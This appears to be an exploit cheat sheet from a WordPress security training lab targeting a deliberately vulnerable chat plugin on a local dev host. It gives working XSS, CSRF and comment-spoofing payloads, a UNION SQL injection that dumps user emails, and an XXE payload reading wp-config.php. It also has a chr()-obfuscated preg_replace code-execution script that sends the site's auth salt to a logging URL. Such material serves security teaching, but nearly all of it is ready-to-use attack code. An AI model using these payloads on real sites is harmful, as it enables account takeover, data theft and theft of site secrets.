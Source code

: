 Make admin say something
========================

With Blog Access
----------------

### XSS

```js
haX0R = true;
```

```html
<script>
(function() {
	if ( 'undefined' !== typeof haX0R ) {
		return;
	}

	jQuery( '.widget_chat_sploit textarea' ).val( 'I am lame HAHAHA' );

	jQuery( '.widget_chat_sploit form' ).submit();
})()
</script>
```

Without Blog Access
-------------------

### CSRF

```html
<form enctype="text/plain" action="http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit" method="POST">
	<input type="hidden" name="&lt;chat&gt;" value="I am lame HAHAHA :)&lt;/chat&gt;" />
	<input type="submit" value="Click if you like cheese!" />
</form>
```

### Spoof

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'comment=I am lame HAHAHA!' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=5'
```

Get the `comment_post_ID` from http://vip.dev/security/comments/feed/ or brute force with:

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'author=test' --form 'email=test@example.com' --form "comment_post_ID=$i"
```

Get list of all users' email adresses
=====================================

With Blog Access
----------------

### SQL Injection

```bash
curl -i 'http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit&since=3013-05-14+00:00:00%27+UNION+SELECT+user_login+AS+author%2C+user_email+AS+text%2C+0+AS+time+FROM+wp_users+--+'
```

Without Blog Access
-------------------

ORLY?

Get the site's SECRET_KEYs
=========================

With Blog Access
----------------

### XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY hi SYSTEM "php://filter/read=convert.base64-encode/resource=file:///home/vagrant/www/security/wp-config.php"> ]>
<chat>Hi! &hi;</chat>
```

You can use your own cookies.

```bash
cat xxe.xml | curl 'http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit' --data @- -H 'Cookie: wordpress_9881e728288c003f340dfcb7f8c7c47c=author%7C1368155849%7Cb2da0569604d7e6bae7fc92758ab4eb7; wordpress_logged_in_9881e728288c003f340dfcb7f8c7c47c=author%7C1368155849%7Ce8138862195324278825dc3751409a14;'
```

Without Blog Access
-------------------

Get blog access first ;)

Or just use the arbitrary code execution vulnerability.

Get the site's SECRET_SALTs
===========================

`PREG_REPLACE_EVAL`
-------------------

### With Blog Access

```
hello http://example.com/{${substr(a.($a=get_option(auth_salt)),0,1)}} there

hello http://example.com/{${substr(chr(97).($a=get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))),0,1)}} there
```

### Without Blog Access

sploit.php:
```php
<?php

$log_url = 'http://vip.dev/log.php?';

$encoded_url = '';

for ( $i = 0; $i < strlen( $log_url ); $i++ ) {
	$encoded_url .= 'chr(' . ord( $log_url[$i] ) . ').';
}

$sploit = 'hello http://example.com/{${substr(chr(97).($a=' . mt_rand() . ').(file_get_contents(' . $encoded_url . 'urlencode(get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))))),0,1)}} there';

echo "$sploit\n";
```

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=5' --form "comment=$( php sloit.php )"
HTTP/1.1 100 Continue
```
